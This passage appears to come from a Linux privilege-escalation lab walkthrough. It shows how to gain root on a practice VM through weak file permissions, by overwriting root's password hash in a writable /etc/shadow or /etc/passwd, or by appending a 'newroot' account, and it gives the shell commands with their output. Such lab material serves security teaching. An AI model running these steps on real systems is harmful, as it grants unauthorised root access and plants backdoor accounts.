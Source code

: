 - Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

    ```bash
    user@debian:~$ nano /etc/shadow
    ```

- Switch to the root user, using the new password:

    ```bash
    user@debian:~$ su root
    Password: 
    root@debian:/home/user#
    ```

- Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").

## Weak File Permissions - Writable /etc/passwd
The `/etc/passwd` file contains information about user accounts. It is world-readable, but usually only writable by the root user. Historically, the `/etc/passwd` file contained user password hashes, and some versions of Linux will still allow password hashes to be stored there.

- Note that the /etc/passwd file on the VM is world-readable:

    ```bash
    user@debian:~$ ls -l /etc/passwd
    -rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
    ```

- Generate a new password hash with a password of your choice:

    ```bash
    user@debian:~$ openssl passwd test
    CLKSOkgdxXRsg
    ```

- Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").

    ```bash
    user@debian:~$ nano /etc/passwd
    ```

- Switch to the root user, using the new password:

    ```bash
    user@debian:~$ su root
    Password: 
    root@debian:/home/user#
    ```

- Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").
